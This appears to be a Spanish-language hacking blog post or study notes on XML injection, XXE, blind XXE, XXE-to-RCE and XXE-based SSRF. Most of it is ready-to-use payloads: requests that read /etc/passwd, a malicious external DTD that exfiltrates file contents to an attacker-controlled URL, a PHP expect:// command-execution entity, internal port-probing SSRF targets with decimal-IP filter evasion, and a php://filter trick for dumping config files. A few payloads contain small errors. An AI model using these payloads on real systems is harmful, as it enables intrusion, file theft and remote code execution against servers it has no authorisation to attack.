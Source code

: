 ```yaml
---
title: "XML Injection"
layout: post
date: 2022-05-17 15:00
image: /assets/images/SQL_Injection.png
headerImage: true
tag:
- web
- hacking
- xml
category: blog
description: Técnica de XML Injection
---
```


# XML Injection

Consulta normal
```
/example.php?xml=<test>hacker</test>
```

Consulta vulnerada
```
/example.php?xml=<!DOCTYPE foo [<!ENTITY xmli "testing">]><test>&xmli;</test>
```

**IMPORTANTE encodear los carácteres de la consulta**

# XML eXternal Entities - XXE

Es posible indicarle al parser XML un archivo externo para poder leerlo.
```
~~~xml
<!ENTITY name SYSTEM "URI">
```

Ejemplo
```
~~~xml
<!DOCTYPE message [
	...
	<!ENTITY xxefile SYSTEM "file:///etc/password">
]>
<message>
	<body>&xxefile;</body>
</message>
```

Petición
```ad-success
~~~xml
../example.php?xml=<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><test>&xxe;</test>
```

# Blind XXE Injection

En este caso es algo más complejo ya que el sistema tiene que tener acceso o visibilidad con el sistema del atacante.

La base de está vulnerabilidad está en la posibilidad de realizar peticiones por DTDs externos. Una manera simple de realizar una petición sería la siguiente:

exfill.dtd
```
~~~xml
<!ENTITY % file SYSTEM []"file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfil SYSTEM 'http://[url atacante]/?x=%file;'>">
%eval;
%exfil;
```

Petición

```ad-success
~~~xml
../example1.php?xml=<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://[URL atacante]/exfil.dtd"> %xxe;]><test>hola</test>
```

# XXE to RCE - Remote Code Execution

Para poder hacer esto la aplicación tiene que tener habilitado el módulo ‘expect’ de PHP.

```xml
/example.php?xml=<!DOCTYPE foo [<!ELEMENT foo ANY><!ENTITY xxe SYSTEM "expect://PWD">]>
<test>&xxe</test>
```

Adicionalmente se podría lograr con otro métodos, como por ejemplo el uso de la clase de **Java XMLDecoder** en el lado del servidor.

![Untitled](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/04b2522f-d817-4aa7-928f-92b228ffac9d/Untitled.png)

# XXE + SSRF

## Server-side Request Forgery

Esta vulnerabilidad se da cuando la máquina vulnerada puede hacer peticiones a otras máquinas internas de la organización, mostrando de forma total o parcial el recurso en la web.

También permite mapear servicios existentes en la red del sistema.

## Como explotar

Una vez se ha identificado una inclusión de ficheros dentro de una aplicación web se puede intentar utilizar esta para acceder a recursos internos de la organización.

### Ejemplo vulnerable

```xml
vulnerable.com/index.php?url=index.php
```

### Payloads

-   http://[..]:80/
-   http://[..]:25/ SMTP
-   http://[..]:22/ SSH
-   http://[..]:3128/ SQUID
-   [http://2130706433/](http://2130706433/) = [http://127.0.0.1](http://127.0.0.1)
-   [http://3232235521/](http://3232235521/) = [http://192.168.0.1](http://192.168.0.1)

# Evasión de filtros

## Parameter Entitites + CDATA + DTD

## Uso de PHP + Base64

Si convertimos el contenido de un archivo a base64 podemos imprimir carácteres especiales que no son imprimibles mediantes XML.

```xml
php://filter/read=**convert.base64-encode**/resource=/path/to/config.php
```

# Recursos externos

## **Ampliación general sobre la explotación de XXE:**

[PayloadsAllTheThings/XXE Injection at master · swisskyrepo/PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XXE%20Injection)

## Ampliación general sobre la explotación de SSRF:

[](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Requ)

## Tipos de inyecciones XXE:

[Lista de payloads para inyecciones XXE (XML External Entity)](https://www.hackplayers.com/2019/12/lista-de-payloads-para-inyecciones-xxe.html)